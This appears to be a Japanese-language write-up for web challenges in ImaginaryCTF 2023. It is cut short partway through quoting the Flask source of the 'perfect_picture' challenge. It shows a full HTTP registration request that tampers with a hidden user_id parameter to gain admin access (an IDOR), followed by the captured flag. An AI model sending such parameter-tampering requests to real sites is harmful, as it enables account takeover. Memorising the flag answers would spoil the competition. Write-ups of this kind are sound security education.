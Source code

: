 # ImaginaryCTF 2023 Writeup

ImaginaryCTF 2023（<https://ctftime.org/event/2015>）に参加しました。  
土, 22 7月 2023, 04:00 JST — 月, 24 7月 2023, 04:00 JST

チーム0nePaddingで参加しましたが、用事があってちょっとしか参加できなかったです。  
後、簡単な問題しかやってません。

- Web
  - [Idoriot](#idoriot)
  - [perfect_picture](#perfect_picture)
  - [blank](#blank)
  - [idoriot-revenge](#idoriot-revenge)

- Web(未完)
  - [Login](#login)

## Idoriot

ユーザ登録時にidを送っているので、そのidをadminのidに変更するだけ。

```http
POST /register.php HTTP/1.1
Host: idoriot.chal.imaginaryctf.org
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://idoriot.chal.imaginaryctf.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://idoriot.chal.imaginaryctf.org/register.php
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=898fee9264709a2d3903c10d2461d0ef
Connection: close

username=test&password=test&user_id=0
```

- フラグ

```text
ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}
```

## perfect_picture

- 問題ソースコード

```py
from flask import Flask, render_template, request
from PIL import Image
import exiftool
import random
import os

app = Flask(__name__)
app.debug = False

os.system("mkdir /dev/shm/uploads/")
app.config['UPLOAD_FOLDER'] = '/dev/shm/uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'png'}

```